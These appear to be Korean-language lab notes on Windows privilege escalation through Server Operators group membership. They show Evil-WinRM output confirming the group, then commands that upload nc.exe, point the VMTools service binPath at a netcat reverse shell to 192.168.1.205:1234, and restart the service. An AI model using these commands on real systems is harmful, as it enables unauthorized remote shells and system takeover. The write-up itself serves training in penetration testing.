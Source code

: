 Server Operators 설명: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators
### Server Operators 그룹 확인
※ `services` 명령어로 어떤 서비스가 작동하고 있는지 확인할 수 있다.
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

```

### 리버스쉘 요청을 시작할 때 실행하도록 설정
```
upload /usr/share/windows-binaries/nc.exe

sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
```


### 서비스 재시작
```
sc.exe stop VMTools
sc.exe start VMTools
```



출처: https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/
